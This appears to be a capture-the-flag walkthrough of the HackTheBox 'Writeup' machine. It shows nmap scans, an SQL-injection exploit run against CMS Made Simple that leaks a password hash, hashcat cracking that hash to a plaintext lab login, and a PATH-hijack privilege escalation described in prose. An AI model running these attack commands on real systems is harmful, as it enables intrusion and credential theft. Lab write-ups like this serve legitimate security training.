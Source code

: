 # Writeup Hackthebox Walkthrough

## All Ports Scan

```bash
# Nmap 7.91 scan initiated Fri Jul  2 12:16:02 2021 as: nmap -T4 -sT -vv -p- -oA nmap/allport 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up, received echo-reply ttl 63 (0.15s latency).
Scanned at 2021-07-02 12:16:02 -06 for 161s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jul  2 12:18:43 2021 -- 1 IP address (1 host up) scanned in 161.25 seconds

```

## Complete Scan

```bash
# Nmap 7.91 scan initiated Fri Jul  2 12:20:14 2021 as: nmap -T4 -sT -sV -sC -A -vv -p22,80 -oA nmap/complete 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up, received echo-reply ttl 63 (0.24s latency).
Scanned at 2021-07-02 12:20:15 -06 for 20s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKBbBK0GkiCbxmAbaYsF4DjDQ3JqErzEazl3v8OndVhynlxNA5sMnQmyH+7ZPdDx9IxvWFWkdvPDJC0rUj1CzOTOEjN61Qd7uQbo5x4rJd3PAgqU21H9NyuXt+T1S/Ud77xKei7fXt5kk1aL0/mqj8wTk6HDp0ZWrGBPCxcOxfE7NBcY3W++IIArn6irQUom0/AAtR3BseOf/VTdDWOXk/Ut3rrda4VMBpRcmTthjsTXAvKvPJcaWJATtRE2NmFjBWixzhQU+s30jPABHcVtxl/Fegr3mvS7O3MpPzoMBZP6Gw8d/bVabaCQ1JcEDwSBc9DaLm4cIhuW37dQDgqT1V
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPzrVwOU0bohC3eXLnH0Sn4f7UAwDy7jx4pS39wtkKMF5j9yKKfjiO+5YTU//inmSjlTgXBYNvaC3xfOM/Mb9RM=
80/tcp open  http    syn-ack Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=7/2%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=60DF58F3%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10A%TI=Z%II=I%TS=8)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.052 days (since Fri Jul  2 11:05:17 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   245.14 ms 10.10.14.1
2   245.23 ms 10.10.10.138

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 12:20:35 2021 -- 1 IP address (1 host up) scanned in 21.34 seconds
```

## Port 80 Enumeration

![](Images/Pasted%20image%2020210702235004.png)

As nmap shows we got a writeup entry in robots.txt

![](Images/Pasted%20image%2020210702235244.png)

Nothing found special so i look forward to check the CMS of or the backend method because the website is using .php

```java
┌─[R4hn1]─[10.10.14.137]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Writeup]
└────╼ # whatweb http://10.10.10.138/writeup/
http://10.10.10.138/writeup/ [200 OK] Apache[2.4.25], CMS-Made-Simple, Cookies[CMSSESSID9d372ef93962], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.138], MetaGenerator[CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.], Title[Home - writeup]
```

Here whatweb shows it is running on the CMS Made Simple - Copyright (C) 2004-2019.

While searching for exploit it shows it is vulnerable to SQLi

![](Images/Pasted%20image%2020210703014832.png)

But the exploit was not working because of some liberary not available for python2,
So i changes some things to work without the liberaries and it works.

After running exploit we found this.

```java
┌─[R4hn1]─[10.10.14.137]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Writeup]
└────╼ # python 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7', 'green')
```

![](Images/Pasted%20image%2020210703020142.png)

```java
┌─[R4hn1]─[10.10.14.137]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Writeup]
└────╼ # hashcat -m 20 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

Credentials :
jkr:raykayjay9
```

So we are logged in with ssh.

![](Images/Pasted%20image%2020210703020329.png)

## Privelege Escalation

After Searching for sometime observer it is running /root/bin/cleanup.pl every minute.

I use pspy64 to monitor running services.

![](Images/Pasted%20image%2020210703024432.png)

But we can't do anything with that cause it is running with absolute path and we don't have previlege to read and write it.
So i look again the same process and one more thing

![](Images/Pasted%20image%2020210703031900.png)

While searing for the file observerd one more thing.

![](Images/Pasted%20image%2020210703031950.png)

First calling path is differnet and the file is calling from second path.
means we can manipulate this.

![](Images/Pasted%20image%2020210703032257.png)

We've noticed one more thing.

![](Images/Pasted%20image%2020210703032404.png)

And once i again logged in using ssh we got a root.

![](Images/Pasted%20image%2020210703032737.png)

